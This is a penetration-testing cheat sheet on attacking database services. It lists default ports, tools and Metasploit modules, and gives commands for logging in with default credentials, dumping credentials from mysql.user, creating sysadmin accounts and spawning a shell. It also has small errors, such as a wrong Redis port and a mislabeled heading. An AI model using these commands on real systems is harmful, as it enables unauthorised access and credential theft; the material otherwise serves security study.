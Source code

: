 ```yaml
---
title: Database Stores
categories: [Ethical Hacking, Common Ports and Services]
tags: [sql, mysql, nosql, mariadb, port:1433, port:3306, nmap, metasploit, hydra, sqlmap]
comments: true
---
```


# Overview

Relational and Non-Relational databases are a valuable target for attackers, with sensitive information often stored within the database tables such as Personally Identifiable Information (PII) and credentials. There are also several vulnerabilities and misconfigurations that can be exploited by an attacker to gain remote shell access to the host running the platform, privilege escalation and malicious program execution.

## Relational Databases

Structured Query Language (SQL) is a language specifically designed for managing structured data within relational database systems and is commonly used as backend storage for many software and web applications. See the post [SQL Overview](https://darkcybe.github.io/posts/SQL_Overview/) for more background information.

There are multiple relational database management systems (RDBMS), some of the most commonly encountered, their default ports and tool applicability are listed in the below table:

| Service       | Port  	 | Nmap   | MSF   | Hydra   | SQLmap | Other        |
| ------------- | :--------: | ------ | :---: | :-----: | :----: | ------------ |
| MSSQL         | 1433-1434  | :white_check_mark: | -[x] | -[x]   | -[x]  | Crackmapexec <br> Impacket |
| MySQL/MariaDB | 3306  	 | -[x]  | -[x] | -[x]   | -[x]  |			    |
| PostgreSQL    | 5432  	 | -[x]  | -[x] | -[x]   | -[x]  |			    |
| Oracle        | 1521  	 | -[x]  | -[x] | -[x]   | -[x]  | Oscanner <br> ODAT |

### SQL Injection

See [CAPEC 66 - SQL Injection](https://darkcybe.github.io/posts/../../../../CAPEC/2022-10-02-66-SQL_Injection.md-Overflow_Buffers/) for verbose information and steps involved in conducting a SQL Injection attack.

## Non-Relational Databases

Non-Relational databases store data in a different format than Relational databases that rely on SQL. Non-Relational databases are often categorized as Not Only SQL (NoSQL) and are generally defined as a database that does not use tables, fields, and columns that structured data required. There are a few different catagories of Non-Relational databases such as; Document, Key-Value, Graph, File Systems, etc.

As with the various RDBMS solutions, there are a number of Non-Relational systems, some of the most commonly encountered, their default ports and tool applicability are listed in the below table. Other solutions which aren't typically listed as NoSQL databases are added here also, such as Redis and Memcached which are memory storage solutions and Hadoop, NFS, AFP, and iSCSI which are file systems.

| Service          | Port  	    | Nmap | MSF | Hydra | Other | 
| ---------------- | :--------: | ---- | :-: | :---: | ----- |
| MongoDB          | 27017 	 	| [x]  | [x] | [x]   | |
| Cassandra        | 9042      	| [x]  | [x] | []    | |
| Redis			   | 6579	 	| [x]  | [x] | [x]   | |
| Memcached		   | 11211	 	| [x]  | [x] | [x]    | |
| Hadoop Mapreduce | 50030 <br> 50060  | [x] | [] | []  | |
| Hadoop HDFS	   | 50070 <br> 50075 <br> 50090 | [x] | [] | []  | |
| NFS			   | 2049    	| [x]  | [x] | []    | NFSshell |
| AFP			   | 548     	| [x]  | [x] | [x]   | |
| iSCSI			   | 3260    	| [x]  | []  | []    | Open-iSCSI <br> iSCSIadm |

# MSSQL

Microsoft SQL Server (MSSQL) often exposes two ports:
1.	1433 - Used by clients to interact with the database
2.	1434 - Used to list available instances (a Server can run multiple instances on high ports)

Default credentials are often set to `sa:sa`, which sa equivalent to Sysadmin.

## MSSQL Scanning and Enumeration

| Tool | Script/Module | Auth | MITRE ATT&CK Tactic             | Command                                    |
| ---- | ------------- | :--: | ------------------------------- | ------------------------------------------ |
| Nmap | ms-sql-info   | N    | Reconnaissance        		    | `sudo nmap -A -p 1433,1434 -n 10.10.10.10` |
| MSF  | mssql_ping    | ?    | Reconnaissance                  | |           
| MSF  | mssql_enum    | ?    | Reconnaissance                  | |

## MSSQL Exploitation

| Tool | Script/Module           | Auth | MITRE ATT&CK Tactic             | Command                                    |
| ---- | ----------------------- | :--: | ------------------------------- | ------------------------------------------ |
| MSF  | mssql_escalate_dbowner <br> mssql_escalate_escalate_as | Y | Privilege Escalation | |
| MSF  | mssql_hashdump			 | Y    | Credential Access	     		  | |
| MSF  | mssql_local_auth_bypass | Y    | Persistence <br> Privilege Escalation  | |
| MSF  | mssql_ntlm_stealer      | Y    | Credential Access      		  | |
| MSF  | mssql_idf               | Y    | Discovery                       | |
| MSF  | mssql_payload           | Y    | Execution                       | |
| MSF  | mssql_sql_file          | Y    | Execution                       | |

## MSSQL Database Interaction

the `mssqlclient.py` python tool that comes pre-installed on Kali Linux as part of the Impacket suite, can be used to interact with a remote MSSQL server.

```bash
# Connecting to a Remote MSSQL Server (Requires Database selection, Domain, Username, Password, and IP address entry.)
mssqlclient.py -db %DATABASE% -windows-auth %DOMAIN%/%USERNAME%:%PASSWORD%@%IP%

# Database Enumeration
SELECT * from %TABLE% # Show all stored data under a select table
SELECT * FROM %DATABASE%.INFORMATION_SCHEMA.TABLES; # Show tables under a select database

# Exploitation
CREATE LOGIN &USERNAME% WITH PASSWORD = '&PASSWORD%' # Create a new user and assign sysadmin privileges
sp_addsrvrolemember '%USERNAME%', 'sysadmin'
```

# MySQL/MariaDB

MySQL is commonly found running on either windows or linux servers. The original MySQL solution was bought by Oracle, the previous open-source variant was forked and is referred to as MariaDB.

Default credentials are often set to `root:`, within some instances as per the example not requiring a password.

## MySQL/MariaDB Scanning and Enumeration

| Tool | Script/Module | Auth | MITRE ATT&CK Tactic             | Command                                    |
| ---- | ------------- | :--: | ------------------------------- | ------------------------------------------ |
| Nmap | mysql-info    | N    | Reconnaissance                  | `sudo nmap -A -p 3306 -n 10.10.10.10`
| MSF  | mysql_enum    | Y    | Reconnaissance                  | |

## MySQL/MariaDB Exploitation

## MSSQL Database Interaction

The MySQL command line tool can be used to interface with a remote MySQL/MariaDB instance.
	
```bash
# Accessing a Remote Server
mysql -h 10.10.10.10 -u root
mysql -h 10.10.10.10 -u root -e 'show databases;'
	
# Database Interaction
show databases; # Shows all available databases
use %DATABASE%; # Enter a select database
show tables; # Show tables under a select database
describe %TABLE%; # Show details of a select table
select * from %TABLE% # Show all stored data under a select table

# Exploitation
\! sh # Drop into a shell
mysql -h 10.10.10.10 -u root --password=%PASSWORD% -e "SELECT * FROM mysql.user;" # Credential Dumping
create user test identified by 'test'; # Create a new user and assign admin privileges
grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;
```